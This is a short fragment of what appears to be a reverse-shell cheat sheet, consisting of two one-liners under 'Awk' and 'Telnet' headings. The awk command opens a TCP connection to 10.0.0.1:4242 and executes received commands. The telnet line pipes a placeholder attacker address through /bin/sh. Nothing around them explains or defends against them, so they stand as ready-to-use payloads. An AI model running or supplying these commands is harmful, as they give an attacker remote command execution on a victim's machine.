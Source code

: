 ## Awk

* ```awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```{.Reverse_Shells_Code_Block}

## Telnet

* ```telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081```{.Reverse_Shells_Code_Block}